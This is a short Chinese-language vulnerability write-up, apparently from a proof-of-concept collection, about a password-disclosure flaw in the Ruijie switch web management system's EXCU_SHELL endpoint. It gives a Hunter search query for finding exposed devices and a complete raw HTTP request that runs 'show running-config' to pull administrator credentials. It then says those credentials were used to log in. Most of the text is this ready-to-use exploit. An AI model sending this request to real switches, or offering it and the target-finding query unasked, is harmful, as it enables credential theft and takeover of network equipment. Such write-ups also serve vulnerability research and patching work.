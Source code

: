 # 锐捷交换机WEB管理系统EXCU_SHELL密码信息泄漏漏洞

# 一、漏洞简介
<font style="color:rgb(31, 35, 40);">锐捷交换机 WEB 管理系统 EXCU_SHELL存在密码信息泄露漏洞，攻击者可从漏洞获取到管理员账号密码，从而以管理员权限登录。</font>

# 二、影响版本
+ <font style="color:rgb(31, 35, 40);">锐捷交换机 WEB 管理系统</font>

# <font style="color:rgb(31, 35, 40);">三、资产测绘</font>
+ hunter`web.body="img/free_login_ge.gif"&&web.body="./img/login_bg.gif"`
+ 登录页面

![1693030700475-392f4913-2fd5-45e8-a33b-c5eb742be387.png](./img/HsfISm4uJkaUTn7g/1693030700475-392f4913-2fd5-45e8-a33b-c5eb742be387-471626.png)

# 四、漏洞复现
```plain
GET /EXCU_SHELL HTTP/1.1
Cmdnum: 1
Command1: show running-config
Confirm1: n
User-Agent: Java/1.8.0_381
Host: xx.xx.xx.xx
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Connection: close
```

![1693030750176-4431bab4-1796-4604-a4e5-40c3f8bb5936.png](./img/HsfISm4uJkaUTn7g/1693030750176-4431bab4-1796-4604-a4e5-40c3f8bb5936-223418.png)

使用获取的账号密码成功登录系统

![1693030780834-da105fd0-c0a5-483f-a016-d1a47499cc5e.png](./img/HsfISm4uJkaUTn7g/1693030780834-da105fd0-c0a5-483f-a016-d1a47499cc5e-719318.png)



> 更新: 2024-06-24 11:42:27  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/hzkmpfxiryxd4dnp>